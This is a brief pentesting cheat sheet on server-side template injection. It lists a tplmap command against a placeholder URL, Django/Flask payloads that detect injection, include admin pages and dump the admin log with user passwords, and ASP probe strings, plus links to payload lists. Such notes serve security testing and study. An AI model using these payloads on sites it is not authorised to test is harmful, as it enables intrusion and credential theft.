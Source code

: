 +++
title = 'SSTI'
+++


## Tools

```
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'
```

## Python Django/Flask

Detection:
```
{% if 'str' = 'str' %} vuln {% endif %}
{% debug %}
```

Disclose pages:
```
{% include 'admin/base.html' %}
```

Disclose log table:
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## ASP/APS.NET/ASPX

- % is a key character
- If ```<%``` returns 500, try ```<%= 7*7 %>```

## Tips

Try to SSTI with the fuzz string provided in cobalt.io blog post refered below


| URL | Description |
|---|---|
| https://github.com/DiogoMRSilva/websitesVulnerableToSSTI | Engines vulnerable to SSTI |
| https://github.com/payloadbox/ssti-payloads | Payloads |
| https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti | Blog about SSTI |
